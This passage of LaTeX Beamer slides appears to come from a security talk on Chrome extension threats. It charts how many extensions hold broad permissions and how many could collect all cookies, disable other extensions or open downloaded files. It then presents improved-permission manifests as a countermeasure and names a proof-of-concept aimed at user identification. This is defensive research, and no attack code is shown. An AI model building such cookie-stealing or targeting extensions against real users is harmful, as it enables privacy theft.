            
\includegraphics[width=\paperwidth]{./graphics/chromeWebStore.PNG}
        };
        \end{tikzpicture}
        \vskip0pt plus 1filll
        \url{https://chrome.google.com/webstore/detail/gighmmpiobklfepjocnamgkkbiglidom}
    \end{frame}
}

\begin{frame}[fragile]
    \frametitle{Evaluation - Preparation}
    \begin{block}{Categorization of components based on needed privileges}
        \begin{itemize}
            \itemsep1em
            \item[A] Content script for all web pages
            \item[B] Host permission for all web pages
            \item[C] API permissions, modified CSP, combination of privileges 
        \end{itemize}
    \end{block}
    \begin{block}{Distribution of implemented components}
        \hspace{0.1cm}
        \begin{tikzpicture}
            \begin{axis}[
                xbar,
                height            = 3.7cm,
                width             = 7cm,
                xmin              = 0,
                xmax              = 15,
                y axis line style = { opacity = 0 },
                axis x line       = none,
                tickwidth         = 0pt,
                symbolic y coords = {C,B,A},
                nodes near coords,               
            ]
            \addplot coordinates {(11,A) (13,B) (11,C)};
            \end{axis}
        \end{tikzpicture}
    \end{block}
\end{frame}

\begin{frame}
    \frametitle{Evaluation - Results}
    \begin{columns}[c]
        \begin{column}[c]{0.52\textwidth}
            \begin{itemize}\setlength\itemsep{0.4em}
                \item Extensions using a \colorbox{SpringGreen}{content script} in all web pages
                \item[]
                \item Extensions declaring \colorbox{Goldenrod}{host}  \colorbox{Goldenrod}{permissions} for all web pages
                \item[]
                \item Extensions with a modified CSP and \colorbox{orange}{\texttt{unsafe\_eval}} enabled
                \item[]
                \item Extensions with a modified CSP and \colorbox{CornflowerBlue!50}{remote script elements} enabled
            \end{itemize}
        \end{column}
        \begin{column}[c]{0.4\textwidth}
            \def\scaleX{1.1}
            \def\scaleY{0.75}   
            \begin{tikzpicture}
                \pie[pos={0*\scaleX,6*\scaleY}, rotate=48, color={SpringGreen, ForestGreen!50}, radius=0.8,sum=auto, after number =]{11/Yes, 4/No}
                \pie[pos={2*\scaleX,4*\scaleY}, rotate=35, color={Yellow, Dandelion}, radius=0.8,sum=auto, after number =]{12/Yes, 3/No}
                \pie[pos={0*\scaleX,2*\scaleY}, rotate=145, color={orange, red!40}, radius=0.8,sum=auto, after number =]{3/Yes, 12/No}
                \pie[pos={2*\scaleX,0*\scaleY}, rotate=85, color={CornflowerBlue!50, Blue!35}, radius=0.8,sum=auto, after number =]{8/Yes, 7/No}
            \end{tikzpicture}
        \end{column}
    \end{columns}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Evaluation - Results}
    \begin{columns}[T]
        \begin{column}[T]{0.4\textwidth}
            \begin{itemize}
                \itemsep1.5em
                \item Download and open files
                \item Exchange downloaded files
                \item Collect all cookies
                \item Disable other extension
                \item Remove HTTP header
            \end{itemize}
        \end{column}
        \begin{column}[T]{0.5\textwidth}
            \begin{tikzpicture}
                \begin{axis}[
                    xbar,
                    axis y line       = none,
                    height            = 5.9cm,
                    xmin              = 0,
                    xmax              = 15,
                    y axis line style = { opacity = 0 },
                    tickwidth         = 0pt,
                    nodes near coords,               
                ]
                \addplot coordinates {(7,1) (1,2) (9,3) (2,4) (0,5)};
                \end{axis}
            \end{tikzpicture}   
        \end{column}
    \end{columns}
\end{frame}

\begin{frame}
    \frametitle{Countermeasure - Detection}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Countermeasure - Improved Permissions}
    \begin{block}{Manifest with improved permissions}
        \begin{lstlisting}[linebackgroundcolor={\highlight{1}{5}{0}{0}}]
"extension_core_permissions":  [
    "inject_script": ["http://*/*", "https://*/*"],
    "cross_site": ["tabs", "http://www.translate.com"]
]
"content_script_permissions":  [
    "sensitivity_level": [medium],
    "same_origin_request": [false],
    "new_origin": ["http://www.translate.com"]
]
\end{lstlisting}
    \end{block}
    \begin{footnotesize}
        From: \textit{L. Liu, X. Zhang, V. Inc, G. Yan, and S. Chen. Chrome extensions: Threat analysis and countermeasures. In In 19th Network and Distributed System Security Symposium (NDSSS) ’12, 2012}
    \end{footnotesize}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Countermeasure - Improved Permissions}
    \begin{block}{Manifest with improved permissions}
        \begin{lstlisting}[linebackgroundcolor={\highlight{2}{3}{7}{0}}]
"extension_core_permissions":  [
    "inject_script": ["http://*/*", "https://*/*"],
    "cross_site": ["tabs", "http://www.translate.com"]
]
"content_script_permissions":  [
    "sensitivity_level": [medium],
    "same_origin_request": [false],
    "new_origin": ["http://www.translate.com"]
]
\end{lstlisting} 
    \end{block} 
    \begin{footnotesize}
        From: \textit{L. Liu, X. Zhang, V. Inc, G. Yan, and S. Chen. Chrome extensions: Threat analysis and countermeasures. In In 19th Network and Distributed System Security Symposium (NDSSS) ’12, 2012}
    \end{footnotesize}  
\end{frame}

\begin{frame}[fragile]
    \frametitle{Countermeasure - Improved Permissions}
    \begin{block}{Manifest with improved permissions}
        \begin{lstlisting}[linebackgroundcolor={\highlight{0}{8}{0}{0}}]
"extension_core_permissions":  [
    "inject_script": ["http://*/*", "https://*/*"],
    "cross_site": ["tabs", "http://www.translate.com"]
]
"content_script_permissions":  [
    "sensitivity_level": [medium],
    "same_origin_request": [false],
    "new_origin": ["http://www.translate.com"]
]
\end{lstlisting} 
    \end{block} 
    \begin{footnotesize}
        From: \textit{L. Liu, X. Zhang, V. Inc, G. Yan, and S. Chen. Chrome extensions: Threat analysis and countermeasures. In In 19th Network and Distributed System Security Symposium (NDSSS) ’12, 2012}
    \end{footnotesize}  
\end{frame}

\begin{frame}[fragile]
    \frametitle{Countermeasure - Improved Permissions}
    \begin{block}{Manifest with improved permissions}
        \begin{lstlisting}[linebackgroundcolor={\highlight{6}{0}{0}{0}}]
"extension_core_permissions":  [
    "inject_script": ["http://*/*", "https://*/*"],
    "cross_site": ["tabs", "http://www.translate.com"]
]
"content_script_permissions":  [
    "sensitivity_level": [medium],
    "same_origin_request": [false],
    "new_origin": ["http://www.translate.com"]
]
\end{lstlisting} 
    \end{block} 
    \begin{footnotesize}
        From: \textit{L. Liu, X. Zhang, V. Inc, G. Yan, and S. Chen. Chrome extensions: Threat analysis and countermeasures. In In 19th Network and Distributed System Security Symposium (NDSSS) ’12, 2012}
    \end{footnotesize}  
\end{frame}

\begin{frame}
    \frametitle{Conclusion}
    \begin{block}{The purpose of our work}
        \begin{itemize}
            \item Demonstrate the threats of browser extension
            \item Focus on user identification and targeted attacks
        \end{itemize}
    \end{block}
    \begin{block}{What we have done}
        \begin{itemize}
            \item Demonstrated potential threats
            \item Designed and implemented a proof-of-concept
            \item Demonstrated its applicability
        \end{itemize}
    \end{block}
\end{frame}

\end{document}